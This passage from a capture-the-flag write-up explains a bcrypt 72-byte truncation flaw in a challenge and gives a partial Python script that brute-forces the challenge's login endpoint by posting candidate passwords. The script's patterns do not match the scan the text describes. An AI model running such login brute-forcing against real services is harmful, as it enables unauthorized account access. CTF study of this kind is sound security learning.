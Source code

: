 ![bcrypt](/assets/img/squ1rrel-ctf_2025/bcrypt.png)

Indeed, `salt` has 12 emoji + 11 * 'aa' = 34 characters and then encode('utf-8') to 68 characters <br>
So the password is only given 72 - 68 = 4 characters but in fact 2 characters for encoding <br>
So we just need to scan the password from 00 to 99 is enough <br>

Let create a script to brute force the password.
```python
import requests

url = 'http://52.188.82.43:8060/login'

headers = {
    'Cache-Control': 'max-age=0',
    'Accept-Language': 'en-US,en;q=0.9',
    'Origin': 'http://52.188.82.43:8060',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://52.188.82.43:8060/?registered=true',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
}

def scanpw():
    username = 'test123123123test'
    
    patterns = [
        "0" * 32,
        "1" * 32,
        "12345678901234567890123456789012",
    ]
    
    for pattern in patterns:
        data = {
            'username': username,
            'password': pattern
        }
        print(f"Trying pattern: {pattern[:5]}...")
        response = requests.post(url, headers=headers, data=data, allow_redirects=False)
        
        if response.status_code != 302 or 'incorrect' not in response.headers.get('Location', ''):
            print('Success! Password:', pattern)
            print('Response:', response.text)
            return
    
```